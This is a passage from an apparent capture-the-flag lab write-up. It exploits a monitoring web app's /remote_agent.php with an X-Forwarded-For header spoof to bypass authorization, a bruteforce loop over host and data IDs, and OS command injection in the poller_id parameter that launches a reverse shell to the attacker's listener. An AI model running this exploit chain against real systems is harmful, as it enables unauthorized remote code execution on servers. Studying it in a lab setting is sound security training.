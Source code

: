 I'll save it as the `REVSHELL_PAYLOAD` shell variable.

### Exploitation

To exploit this vulnerability, we need to have access to `/remote_agent.php`.
Let's check if the `127.0.0.1` address passes the authorization check:

```sh
❯ curl -s -H "X-Forwarded-For: 127.0.0.1" "http://10.10.11.211/remote_agent.php"
```

```
Unknown Agent Request
```

We don't get an authorization error message, so it's valid.

Now we have access to the `/remote_agent.php` functionalities. To exploit the OS
command injection vulnerability, we need valid `host_id` and `local_data_id`
values, so let's bruteforce them:

```sh
❯ for i in {1..10}; do \
    for j in {1..10}; do \
      RESPONSE=$(curl -s -H "X-Forwarded-For: 127.0.0.1" "http://10.10.11.211/remote_agent.php" -G --data-urlencode "action=polldata" --data-urlencode "host_id=$i" --data-urlencode "local_data_ids[]=$j" --data-urlencode "poller_id="); \
      if [ "$RESPONSE" != "[]" ]; then \
        RRD_NAME=$(echo "$RESPONSE" | jq -r '.[0].rrd_name'); \
        if [[ $RRD_NAME == "polling_time" || $RRD_NAME == "uptime" ]]; then \
          HOST_ID="$i"; \
          LOCAL_DATA_ID="$j"; \
          break 2; \
        fi; \
      fi; \
    done; \
  done
```

With these values, we can execute our command.

```sh
❯ curl -s -o "/dev/null" -H "X-Forwarded-For: 127.0.0.1" "http://10.10.11.211/remote_agent.php" -G --data-urlencode "action=polldata" --data-urlencode "host_id=$HOST_ID" --data-urlencode "local_data_ids[]=$LOCAL_DATA_ID" --data-urlencode "poller_id=;'/bin/bash' -c '$REVSHELL_PAYLOAD'"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.211] 47556
<SNIP>
www-data@50bca5e748b0:/var/www/html$
```

It caught the reverse shell!

### Stabilizing the shell
